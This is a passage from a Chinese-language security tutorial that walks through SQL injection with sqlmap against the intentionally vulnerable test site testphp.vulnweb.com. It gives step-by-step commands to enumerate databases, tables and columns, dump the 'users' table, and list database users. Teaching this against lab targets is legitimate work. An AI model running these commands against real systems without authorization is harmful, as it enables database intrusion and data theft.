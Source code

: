 ![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-py-net-sec/img/d2cb69e2-3cbd-46b4-ac35-36d1b451aea0.png)

我们得到以下输出，显示有两个可用的数据库。有时，应用程序会告诉您它已经识别了数据库，并询问您是否要测试其他数据库类型。您可以继续输入“Y”。此外，它可能会询问您是否要测试其他参数以查找漏洞，请在此处输入“Y”，因为我们希望彻底测试 Web 应用程序。

**步骤 2：列出特定数据库中存在的表的信息**

要尝试访问任何数据库，我们必须修改我们的命令。我们现在使用-D 来指定我们希望访问的数据库的名称，一旦我们访问了数据库，我们希望看看是否可以访问表。

对于此任务，我们可以使用`--tables`查询来访问 acuart 数据库：

```py
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1  -D acuart --tables
```

在下图中，我们看到已恢复了八个表。通过这种方式，我们确切地知道网站是易受攻击的：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-py-net-sec/img/fe550ac2-0495-41f8-ac80-aea3322b5a87.png)

**步骤 3：列出特定表的列信息**

如果我们想要查看特定表的列，我们可以使用以下命令，其中我们使用`-T`来指定表名，并使用**`--columns`**来查询列名。

这是我们可以尝试访问‘users’表的命令：

```py
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1  -D acuart -T users
--columns
```

**步骤 4：从列中转储数据**

同样，我们可以使用以下命令访问特定表中的所有信息，其中`**--dump`查询检索用户表中的所有数据：

```py
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users --dump
```

从以下图片中，我们可以看到我们已经访问了数据库中的数据：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-py-net-sec/img/6c92aa64-3640-4011-9c2d-9184315084b5.png)

# 其他命令

同样，在易受攻击的网站上，我们可以通过其他命令从数据库中提取信息。

使用此命令，我们可以从数据库中获取所有用户：

```py
$ python sqlmap.py -u [URL] --users
sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=*" --users
```

在这里，我们获得了在数据库管理系统中注册的用户：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-py-net-sec/img/3d67ef38-867a-4907-aa9f-5277b7e4b8c1.png)

使用此命令，我们可以从表中获取列：

